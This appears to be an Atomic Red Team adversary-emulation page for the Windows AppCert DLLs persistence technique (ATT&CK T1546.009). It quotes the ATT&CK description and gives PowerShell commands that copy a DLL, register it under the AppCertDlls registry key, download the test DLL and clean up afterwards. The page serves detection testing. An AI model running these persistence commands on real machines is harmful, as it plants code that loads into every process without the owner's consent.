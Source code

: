 # T1546.009 - Event Triggered Execution: AppCert DLLs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/009)
<blockquote>

Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppCert DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppCertDLLs</code> Registry key under <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\</code> are loaded into every process that calls the ubiquitously used application programming interface (API) functions <code>CreateProcess</code>, <code>CreateProcessAsUser</code>, <code>CreateProcessWithLoginW</code>, <code>CreateProcessWithTokenW</code>, or <code>WinExec</code>. (Citation: Elastic Process Injection July 2017)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), this value can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. Malicious AppCert DLLs may also provide persistence by continuously being triggered by API activity. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create registry persistence via AppCert DLL](#atomic-test-1---create-registry-persistence-via-appcert-dll)


<br/>

## Atomic Test #1 - Create registry persistence via AppCert DLL
Creates a new 'AtomicTest' value pointing to an AppCert DLL in the AppCertDlls registry key. 
Once the computer restarted, the DLL will be loaded in multiple processes and write an 
'AtomicTest.txt' file in C:\Users\Public\ to validate that the DLL executed succesfully.

Reference: https://skanthak.homepage.t-online.de/appcert.html

**Supported Platforms:** Windows


**auto_generated_guid:** a5ad6104-5bab-4c43-b295-b4c44c7c6b05





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | path of dll to use | path | PathToAtomicsFolder&#92;T1546.009&#92;bin&#92;AtomicTest.dll|
| reboot | Set value to $true if you want to automatically reboot the machine | string | $false|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "#{dll_path}" C:\Users\Public\AtomicTest.dll -Force
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /t REG_EXPAND_SZ /d "C:\Users\Public\AtomicTest.dll" /f
if(#{reboot}){Restart-Computer}
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /f
Remove-Item C:\Users\Public\AtomicTest.dll -Force
Remove-Item C:\Users\Public\AtomicTest.txt -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.009/bin/AtomicTest.dll" -OutFile "#{dll_path}"
```




<br/>
